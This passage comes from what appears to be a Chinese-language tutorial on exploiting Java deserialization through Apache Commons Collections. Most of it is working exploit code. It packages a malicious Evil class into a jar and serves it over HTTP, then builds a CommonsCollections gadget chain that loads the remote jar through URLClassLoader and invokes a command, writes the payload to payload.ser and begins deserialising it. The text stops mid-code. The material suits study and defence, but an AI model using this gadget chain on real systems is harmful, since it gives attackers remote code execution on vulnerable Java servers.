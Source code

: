 将恶意类打包成 jar 文件，并放到服务器上，这里因为是本地演示，就直接在本地开个 Python HTTP 服务了。

```
javac Evil.java
jar -cvf Evil.jar Evil.class
python3 -m http.server 80
```

 然后回到 intelliJ IDEA，在 com.commons 软件包中新建 ApacheCommonsCollectionsDemo2.java 文件，在文件中写入以下内容

```java
package com.commons;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.util.HashMap;
import java.util.Map;

public class ApacheCommonsCollectionsDemo2 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[0];
        try {
            transformers = new Transformer[]{
                    new ConstantTransformer(java.net.URLClassLoader.class),
                    new InvokerTransformer("getConstructor", new Class[]{Class[].class}, new Object[]{new Class[]{java.net.URL[].class}}),
                    new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[]{new java.net.URL[]{new java.net.URL("http://127.0.0.1/Evil.jar")}}}),
                    new InvokerTransformer("loadClass", new Class[]{String.class}, new Object[]{"Evil"}),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"Exec", new Class[]{String.class}}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new String[]{"uname"}})
            };
        } catch (MalformedURLException e) {
            e.printStackTrace();
        }

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);

        Field valfield = poc.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(poc, entry);

        File f = new File("payload.ser");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(poc);
        out.close();

        FileInputStream fis = new FileInputStream("payload.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
```